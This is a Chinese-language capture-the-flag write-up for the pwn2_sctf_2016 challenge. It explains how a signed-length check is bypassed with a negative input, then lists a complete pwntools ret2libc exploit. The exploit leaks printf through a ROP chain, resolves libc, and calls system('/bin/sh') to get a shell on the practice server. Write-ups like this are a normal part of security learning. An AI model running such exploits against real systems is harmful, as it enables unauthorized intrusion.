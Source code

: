 首先检查程序的安全机制

![image-20201112091158929](https://static.hack1s.fun/images/2021/02/06/image-20201112091158929.png)

反编译main函数

![image-20201112091459158](https://static.hack1s.fun/images/2021/02/06/image-20201112091459158.png)

这里存在的问题是这个v2没有转换为unsigned来判断，输入一个负数之后就可以绕过`v2>32`的逻辑

然后后面又把v2当作`%u`来读数据

所以输入一个负数以后溢出即可，后面就是比较常规的ROP

![image-20201112091841744](https://static.hack1s.fun/images/2021/02/06/image-20201112091841744.png)

程序里面有这样一个`do_thing`的函数，里面有一个`int 80h`的gadget

通过这个gadget可以调用系统调用，前面只要对eax赋值就可以了

或者也可以用常规的printf泄漏libc的基地址

前面那个思路没有找到对eax赋值的gadget

最后用printf泄漏基地址做的

```python
from pwn import *
from LibcSearcher import *

io = remote('node3.buuoj.cn',25094)
#io = process('./pwn2_sctf_2016')
elf = ELF('./pwn2_sctf_2016')

plt_printf = elf.plt['printf']
got_printf = elf.got['printf']
vuln = elf.sym['vuln']
format_str = 0x8048702

io.recvuntil('read? ')
io.sendline(str(-1))

io.recvuntil('data!\n')

payload = 'a'*0x2c + 'b'*0x4 + p32(plt_printf) + p32(vuln) + p32(format_str) + p32(got_printf)
io.sendline(payload)

io.recvuntil('\n')

real_printf = u32(io.recv(4))
libc = LibcSearcher('printf',real_printf)

libc_base = real_printf - libc.dump('printf')
system_addr = libc_base + libc.dump('system')
binsh = libc_base + libc.dump('str_bin_sh')

io.recvuntil('read? ')
io.sendline(str(-1))

io.recvuntil('data!\n')
payload = 'a'*0x2c + 'b'*0x4 + p32(system_addr) + p32(vuln) + p32(binsh)
io.sendline(payload)

io.interactive()
```

这个match到的libc有十多个，选的怀疑人生

甚至都觉得自己的exp写错了

最后正确的是这个版本

![image-20201112102913739](https://static.hack1s.fun/images/2021/02/06/image-20201112102913739.png)

